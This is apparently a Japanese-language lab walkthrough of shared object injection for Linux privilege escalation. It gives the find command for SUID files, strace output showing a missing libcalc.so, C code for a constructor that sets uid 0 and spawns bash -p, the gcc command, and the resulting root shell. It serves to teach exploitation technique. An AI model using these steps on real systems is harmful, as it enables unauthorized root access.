 共有オブジェクト インジェクション  
プログラムが実行されると、必要な共有オブジェクトをロードしようとします。   
strace というプログラムを使用することで、これらのシステム コールを追跡し、共有オブジェクトが見つからなかったかどうかを判断できます。   
プログラムが開こうとする場所に書き込むことができれば、共有オブジェクトを作成し、ロード時にルート シェルを生成できます。  
# Privilege Escalation
1. ターゲット上のSUID/SGIDファイルを検索します。
```
$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
...
-rwsr-sr-x 1 root staff 9861 May 14 2017 /usr/local/bin/suid-so
...`
```
suid-soファイルは、rootユーザの権限で実行する必要があります。   
2. SUIDファイルに対してstraceを実行します。
```
$ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such
file"
access("/etc/suid-debug", F_OK) = -1 ENOENT (No such file or
directory)
...
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such
file or directory)
```
libcalc.soの共有オブジェクトが見つからず、プログラムは書き込み可能なユーザーのホームディレクトリを検索しています。   
3. home/user/.configディレクトリを作成します。
4. 以下の内容でファイル libcalc.c を作成します。
```
#include <stdio.h>
#include <stdlib.h>
static void inject() __attribute__((constructor));
void inject() {
setuid(0);
system("/bin/bash -p");
}
```
5. libcalc.cを/home/user/.config/libcalc.soにコンパイルします。
```
$ gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c
```
6. SUID 実行可能ファイルを実行して、ルート シェルを取得します。
```
$ /usr/local/bin/suid-so
Calculating something, please wait...
bash-4.1# id
uid=0(root) gid=1000(user) egid=50(staff) groups=0(root) ...
```